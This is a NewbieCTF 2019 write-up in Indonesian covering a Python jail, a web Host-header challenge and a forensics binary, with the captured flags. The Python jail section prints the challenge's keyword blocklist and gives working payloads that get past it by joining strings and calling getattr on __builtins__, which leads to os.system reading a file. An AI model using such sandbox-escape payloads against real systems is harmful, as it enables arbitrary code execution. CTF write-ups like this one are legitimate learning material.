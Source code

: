 ```yaml
---
slug: writeup-newbiectf-2019
title: Writeup NewbieCTF 2019
date: 2019-11-03
author: Bardizba
keywords: [WRITE-UP NewbieCTF 2019]
description: WRITE-UP NewbieCTF 2019
excerpt: NewbieCTF 2019. A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.
tags : ["ctf"]
---
```

![ctf](./gambar.png)
NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```
<br/>
---
    
# Web Hacking
## Normal_Host
```
Normal_Host

This is Just a Normal Host! Can you hack?
Author: Y311J(신재욱)
LINK:
```

[LINK](https://internal.iwinv.net/)

Awalnya pada kategori web hacking memiliki 2 Chals, dan 2 chals tersebut berada pada satu server. saat saya coba mencari flag chals pertama(chals tersebut bertipe RCE PHP) ternyata malah ketemu flag untuk chals yang ini wkwk.

untuk mendapatkan flag pada chals ini masukan payload :
```
normalflag.iwinv.net:80
```

Flag : 
```
KorNewbie{H0$7_$P1it_A774cK_U$3s_N0RM^liZ47ioN&##$%%!}
```

<br/>
---
# Forensics
## Rec

```
REC? Kion vi celas?
```

diberikan file REC.exe, decompile file tersebut dengan IDA, lalu kita lihat function - function yang ada. dan ternyata terdapat fungsi yang menampilkan flag sesuai formatnya.

![ida-pro](./pics/ida.png)

kita copy dan lakukan find and replace menggunakan VSCode.

    Flag : KorNewbie{Recover_Signature}